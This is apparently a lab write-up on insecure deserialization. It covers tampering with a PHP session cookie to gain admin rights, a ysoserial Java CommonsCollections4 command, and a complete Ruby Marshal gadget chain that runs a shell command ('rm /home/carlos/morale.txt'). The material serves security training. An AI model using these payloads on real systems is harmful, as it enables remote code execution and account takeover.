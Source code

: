 #  Insecure deserialization



## 1. Lab: Modifying serialized objects
- Log in with your normal user account.
- Check the session cookie in the /my-account request—it’s URL and Base64-encoded.
- Decode the cookie in Burp’s Inspector. You’ll see a serialized PHP object. The admin attribute is b:0 (false).
- Send the request to Repeater and change b:0 → b:1 to make yourself an admin. Apply changes.
- Send the request—you should now see a link to /admin.
- Go to /admin, and you’ll see options to delete users.
- Delete Carlos’ account by sending a request to /admin/delete?username=carlos.





```
java \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
  --add-opens=java.base/java.net=ALL-UNNAMED \
  --add-opens=java.base/java.util=ALL-UNNAMED \
  -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morale.txt" | base64 -w0

```




# Ruby Compiler : 
-https://www.jdoodle.com/execute-ruby-online | https://www.adaface.com/online-compiler/online-ruby-compiler

```
# Autoload the required classes

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    require 'base64'
    require 'net/http'
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```